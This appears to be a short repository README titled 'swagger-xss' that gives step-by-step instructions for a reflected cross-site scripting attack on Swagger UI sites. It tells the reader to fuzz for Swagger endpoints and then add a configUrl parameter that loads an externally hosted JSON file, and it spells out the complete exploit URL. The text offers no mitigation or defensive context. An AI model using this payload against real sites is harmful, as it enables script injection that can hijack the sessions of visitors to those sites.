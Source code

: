 # swagger-xss

# Exploit 

if a domain is is running swagger ,
1. first fuzz with this wordlists
2. if site have some endpoint like this
https://domain.ltd/index.html

3. payload : ?configUrl=https://raw.githubusercontent.com/adrianalvird/swagger-ui-xss/main/test.json

4. so entire rxss will look like this
5. https://domain.ltd/index.html?configUrl=https://raw.githubusercontent.com/adrianalvird/swagger-ui-xss/main/test.json
